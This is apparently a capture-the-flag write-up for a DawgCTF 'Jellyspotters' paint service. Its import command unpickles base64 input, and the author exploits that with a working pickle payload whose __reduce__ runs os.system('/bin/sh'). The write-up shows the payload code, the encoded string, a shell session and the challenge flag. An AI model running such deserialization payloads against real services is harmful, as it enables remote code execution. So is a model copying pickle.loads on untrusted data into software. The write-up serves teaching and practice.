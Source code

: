 

The service allows to display the canvas, set and clear particular pixel, import and exp[ort canvas.

```bash
$ nc umbccd.io 4200
Welcome to the Paint Program!
Paint us a new poster for the Jellyspotters 2021 convention. Make Kevin proud.
Type 'help' for help.
> help
Listing commands...
display             Display the canvas
clearall            Clear the canvas
set [row] [col]     Set a particular pixel
clear [row] [col]   Clear a particular pixel
export              Export the canvas state
import [canvas]     Import a previous canvas
exit                Quit the program

```

Tried to set then clear pixiel, didn't have any clue. Tried to export it shown a string which is base64 encoded canvas, import with invalid string as argument, it shown error, the error message disclosed how it encode/decode a canvas. Exported canvas indeed was a based64-encoded pickled canvas matrix, *import* takes a based64-encoded pickled canvas object as string.

```bash
$ nc umbccd.io 4200
Welcome to the Paint Program!
Paint us a new poster for the Jellyspotters 2021 convention. Make Kevin proud.
Type 'help' for help.
> import aaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Importing...
Traceback (most recent call last):
  File "/home/challuser/jellyspotters.py", line 67, in <module>
    imp = pickle.loads(base64.b64decode(split[1]))
  File "/usr/lib/python3.8/base64.py", line 87, in b64decode
    return binascii.a2b_base64(s)
binascii.Error: Invalid base64-encoded string: number of data characters (29) cannot be 1 more than a multiple of 4
```

This [post](https://blog.nelhage.com/2011/03/exploiting-pickle/#:~:text=%20Exploiting%20misuse%20of%20Python%27s%20%22pickle%22%20%201,basically%20won.%20We%20can%20run%20arbitrary...%20More%20) introduced a way of pickle exploiting. It uses ``__reduce__`` callback of particular object, while pickle/unpickle, the callback is called. So created a class with ``__reduce__`` callback to launch */bin/sh*, pickled the class and encoded with base64, when import it should spawn a shell.

```python
class run(object):
  def __reduce__(self):
    import os
    return (os.system, ('/bin/sh',))

print(base64.b64encode(pickle.dumps(run())))
```

Imported the payload, it gave shell, the flag was in *flag.txt*.

```bash
$ nc umbccd.io 4200
Welcome to the Paint Program!
Paint us a new poster for the Jellyspotters 2021 convention. Make Kevin proud.
Type 'help' for help.
> import gASVIgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjAcvYmluL3NolIWUUpQu
Importing...
/bin/sh: 0: can't access tty; job control turned off
$ ls
flag.txt  jellyspotters.py
$ cat flag.txt
DawgCTF{funn13st_s#$&_ive_3v3r_s33n}
$ 
```

### Reference
- [Exploiting Misuse of Python Pickle](https://blog.nelhage.com/2011/03/exploiting-pickle/#:~:text=%20Exploiting%20misuse%20of%20Python%27s%20%22pickle%22%20%201,basically%20won.%20We%20can%20run%20arbitrary...%20More%20)
